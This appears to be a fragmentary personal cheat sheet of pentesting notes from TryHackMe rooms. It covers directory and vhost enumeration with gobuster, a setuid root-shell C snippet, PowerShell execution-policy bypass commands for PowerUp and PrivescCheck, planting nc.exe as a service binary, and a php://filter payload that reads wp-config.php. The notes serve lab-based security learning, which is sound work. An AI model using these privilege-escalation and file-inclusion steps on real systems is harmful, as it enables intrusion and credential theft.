 # R

* Remember for web/general/security
* .todo: dns discord
* web general | terminology | URL may have to be moved

<hr>

<hr class="sep-both">

## 👻 TODO 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-md-2"><div>

xxx
</div><div>


</div></div>

<hr>

## Reaped

...

<hr>

## Special

* `wireshark` (https://tryhackme.com/room/startup): wireshark `.pcapng`. Then right-click on interesting packets, and click on "follow TCP Stream"

<hr>

## Prev esc

https://tryhackme.com/room/linprivesc
=> If there are tools not installed on your target: https://github.com/andrew-d/static-binaries
=> hint/notes
=> network
* Another alternative to this program, is to create a suite file with a copy of bash.

```c
int main() {
  setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

* https://tryhackme.com/room/windowsprivesc20 (dropped fur now)

<hr>

## Forced Browsing

* https://tryhackme.com/room/webenumerationv2
  * Gobuster options.
  * -k for ssl errors
* Gobuster DNS/VHosts
* Useful wordlists
* nmap `-n` redo
* add a warning + 64th
* `cat /usr/share/wordlists/dirb/extensions_common.txt | tr '\n' ','`
* `gobuster -u` for vhost
* `gobuster vhost -u http://webenum.thm -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t50 --append-domain` (in new versions of gobuster, false by default)
* NOT FINISHED https://tryhackme.com/room/webenumerationv2

> While participating in rooms on TryHackMe, virtual hosts would be a good way to hide a completely different website if nothing turned up on your main port 80/443 scan.

<hr>

## Overconfidence

* `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"`
* `powershell -ep bypass -c ". .\PowerUp.ps1;"`
* `https://github.com/itm4n/PrivescCheck#metasploit-timeout`
* `load powershell`
* `powershell_shell`
* `. .\PowerUp.ps1; Invoke-AllChecks`
* `. .\PowerUp.ps1` `PS > Invoke-AllChecks`
* https://www.joesandbox.com/#windows
* https://github.com/EgeBalci/sgn
* `Write-ServiceBinary -Name 'XXX' -Path ".\nc.exe"`
* `powershell -c wget "URL" -outfile "OUTPUT"`
* like OTX: https://cyware.com/

--- https://tryhackme.com/room/easyctf 🐍🐍⭐

* `python2 simple.py`
* oh gosh, volatily + `pip install --upgrade setuptools` https://stackoverflow.com/questions/31719816/pip-fails-to-install-anything-error-invalid-command-egg-info
* `print "[+] Specify an url target"`

--- https://tryhackme.com/room/lazyadmin 🐍🐍⭐

* nmap
* gobuster
* ...

* FTP do not seem to work with path (to upload with put, but it works if you start FTP in the directory where the file is)

--- https://tryhackme.com/room/allinonemj 🐍🐍🐍

* Test: `wpscan --url http://10.10.162.222/wordpress/ --detection-mode aggressive`
* `php://filter/convert.base64-encode/resource=../../../../../wp-config.php` (file inclusion)